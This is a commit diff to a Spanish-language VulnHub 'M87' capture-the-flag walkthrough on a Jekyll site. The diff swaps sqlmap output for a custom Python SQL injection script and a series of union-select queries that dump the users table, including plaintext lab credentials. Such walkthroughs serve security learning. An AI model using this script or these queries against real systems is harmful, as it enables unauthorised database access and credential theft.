

Before and after one commit to henryp911/gg-new.github.io, a Jekyll site: the page vulnhub/m87/index.html, which Jekyll copies as it is, in a window 1280 px wide and 1400 px high, scrolled down 2287 px. Shown: the whole window at 92% size, without its empty margins (252-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update index.html

```diff
--- a/vulnhub/m87/index.html
+++ b/vulnhub/m87/index.html
@@ -120,38 +120,67 @@ MariaDB server version for the right syntax to use near ''' at line 1
 Login</span>
 </code></pre></div></div>
 
-<div><p>Con sqlmap podemos intentar ver las bases de datos existentes, parece interesante db</p></div>
+<div><p>Creamos un script que nos envie la petición con la query que le pasemos y nos muestre la respuesta que devuelve al aplicar la inyección sql</p></div>
 <div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
-<code><span class="s2">❯ sqlmap</span><span class="p"> --url </span><span class="no">"http://192.168.100.15/admin/backup/?id=1"</span><span class="p"> -dbs --batch
-[</span><span class="s2">INFO</span><span class="p">] fetching database names
-available databases [4]:
-[*] db
-[*] information_schema
-[*] mysql
-[*] performance_schema</span>
+<code><span class="c1">#!/usr/bin/python3
+</span><span class="kd">import </span><span class="p">sys, requests, urllib, re
+
+</span><span class="kd">if</span><span class="k"> len</span><span class="p">(sys.argv) </span><span class="kd"><</span><span class="na"> 2</span><span class="p">:
+    </span><span class="k">print</span><span class="p">(</span><span class="k">f</span><span class="s2">"\n\033[1;37m[\033[1;31m-\033[1;37m] Uso python3 {sys.argv[0]} <querysql>\n"</span><span class="p">)
+    exit(</span><span class="na">1</span><span class="p">)
+
+target </span><span class="kd">=</span><span class="s2"> "http://192.168.100.45/admin/backup/"</span><span class="p">
+payload </span><span class="kd">=</span><span class="p"> {</span><span class="s2">"id"</span><span class="p">:</span><span class="k"> f</span><span class="s2">"1 {sys.argv[1]}"</span><span class="p">}
+params </span><span class="kd">=</span><span class="p"> urllib.parse.urlencode(payload)
+request </span><span class="kd">=</span><span class="p"> requests.get(target, params=params)
+result </span><span class="kd">=</span><span class="p"> re.search(</span><span class="k">b</span><span class="s2">"\\r\\njack(.*?)\\n"</span><span class="p">, request.content)
+output </span><span class="kd">=</span><span class="k"> str</span><span class="p">(result.group(</span><span class="na">1</span><span class="p">), </span><span class="s2">"utf-8"</span><span class="p">)
+</span><span class="k">print</span><span class="p">(output.replace(</span><span class="s2">","</span><span class="p">, </span><span class="s2">"\n"</span><span class="p">))</span>
 </code></pre></div></div>
 
-<div><p>Ahora podemos dumpear la base de datos y encontramos credenciales entre ellas las de admin</p></div>
+<div><p>Iniciamos por ver que base de datos esta actualmente en uso y es db</p></div>
 <div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
-<code><span class="s2">❯ sqlmap</span><span class="p"> --url </span><span class="no">"http://192.168.100.15/admin/backup/?id=1"</span><span class="p"> -D db --dump --batch
-[</span><span class="s2">INFO</span><span class="p">] fetching entries for table 'users' in database 'db'
-Database: db
-Table: users
-[10 entries]
-+----+--------------------+-----------------+----------+
-| id | email              | password        | username |
-+----+--------------------+-----------------+----------+
-| 1  | jack@localhost     | gae5g5a         | jack     |
-| 2  | ceo@localhost      | 5t96y4i95y      | ceo      |
-| 3  | brad@localhost     | gae5g5a         | brad     |
-| 4  | expenses@localhost | 5t96y4i95y      | expenses |
-| 5  | julia@localhost    | fw54vrfwe45     | julia    |
-| 6  | mike@localhost     | 4kworw4         | mike     |
-| 7  | adrian@localhost   | fw54vrfwe45     | adrian   |
-| 8  | john@localhost     | 4kworw4         | john     |
-| </span><span class="kd">9</span><span class="p">  | </span><span class="kd">admin@localhost</span><span class="p">    | </span><span class="kd">15The4Dm1n4L1f3</span><span class="p"> | </span><span class="kd">admin</span><span class="p">    |
-| 10 | alex@localhost     | dsfsrw4         | alex     |
-+----+--------------------+-----------------+----------+</span>
+<code><span class="s2">❯ python3 </span><span class="p">exploit.py </span><span class="no">"union select database()"</span><span class="p">
+db</span>
+</code></pre></div></div>
+
+<div><p>Ahora enumeramos las bases de datos existentes pero la que parece mas interesante es db</p></div>
+<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
+<code><span class="s2">❯ python3 </span><span class="p">exploit.py </span><span class="no">"union select group_concat(schema_name) from information_schema.schemata"</span><span class="p">
+information_schema
+mysql
+db
+performance_schema</span>
+</code></pre></div></div>
+
+<div><p>Entonces enumeramos las tablas existentes en la base de datos db aunque solo existe users</p></div>
+<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
+<code><span class="s2">❯ python3 </span><span class="p">exploit.py </span><span class="no">"union select group_concat(table_name) from information_schema.tables where table_schema='db'"</span><span class="p">
+users</span>
+</code></pre></div></div>
+
+<div><p>Entonces podemos enumerar las columnas de la table users de la base de datos db, podemos ver campos interesantes</p></div>
+<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
+<code><span class="s2">❯ python3 </span><span class="p">exploit.py </span><span class="no">"union select group_concat(column_name) from information_schema.columns where table_schema='db' and table_name='users'"</span><span class="p">
+id
+username
+password
+email</span>
+</code></pre></div></div>
+
+<div><p>Finalmente solo leemos username y password, podemos ver credenciales, entre ellas las de admin</p></div>
+<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
+<code><span class="s2">❯ python3 </span><span class="p">exploit.py </span><span class="no">"union select group_concat(username,0x3a,password) from users"</span><span class="p">
+jack:gae5g5a
+ceo:5t96y4i95y
+brad:gae5g5a
+expenses:5t96y4i95y
+julia:fw54vrfwe45
+mike:4kworw4
+adrian:fw54vrfwe45
+john:4kworw4
+</span><span class="na">admin</span><span class="p">:</span><span class="kd">15The4Dm1n4L1f3</span><span class="p">
+alex:dsfsrw4</span>
 </code></pre></div></div>
 
 <div><p>Al probar parametros basicos como file podemos ver un lfi, y el usuario charlotte</p></div>
@@ -260,8 +289,6 @@ mindsflee
 </span><span class="s2">root@M87</span><span class="p">:</span><span class="na">~</span><span class="p">#</span>
 </code></pre></div></div>
 
-
-
 <p><a href="./../../">Página Principal</a></p>
 
       </section>
```
